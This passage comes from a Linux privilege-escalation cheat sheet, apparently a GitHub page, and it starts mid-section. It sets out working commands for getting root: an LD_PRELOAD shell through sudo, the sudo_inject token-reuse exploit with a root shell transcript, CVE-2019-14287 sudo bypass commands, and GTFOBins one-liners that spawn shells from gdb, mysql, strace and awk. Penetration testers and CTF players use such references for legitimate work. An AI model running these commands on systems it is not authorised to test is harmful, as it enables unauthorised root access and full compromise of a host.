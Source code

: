 Execute any binary with the LD_PRELOAD to spawn a shell : `sudo LD_PRELOAD=<full_path_to_so_file> <program>`, e.g: `sudo LD_PRELOAD=/tmp/shell.so find`

### Doas

There are some alternatives to the `sudo` binary such as `doas` for OpenBSD, remember to check its configuration at `/etc/doas.conf`

```bash
permit nopass demo as root cmd vim
```

### sudo_inject

Using [https://github.com/nongiach/sudo_inject](https://github.com/nongiach/sudo_inject)

```powershell
$ sudo whatever
[sudo] password for user:    
# Press <ctrl>+c since you don't have the password. 
# This creates an invalid sudo tokens.
$ sh exploit.sh
.... wait 1 seconds
$ sudo -i # no password required :)
# id
uid=0(root) gid=0(root) groups=0(root)
```

Slides of the presentation : [https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf](https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf)

### CVE-2019-14287

```powershell
# Exploitable when a user have the following permissions (sudo -l)
(ALL, !root) ALL

# If you have a full TTY, you can exploit it like this
sudo -u#-1 /bin/bash
sudo -u#4294967295 id
```

## GTFOBins

[GTFOBins](https://gtfobins.github.io) is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

The project collects legitimate functions of Unix binaries that can be abused to break out restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and facilitate the other post-exploitation tasks.

> gdb -nx -ex '!sh' -ex quit
> sudo mysql -e '\! /bin/sh'
> strace -o /dev/null /bin/sh
> sudo awk 'BEGIN {system("/bin/sh")}'
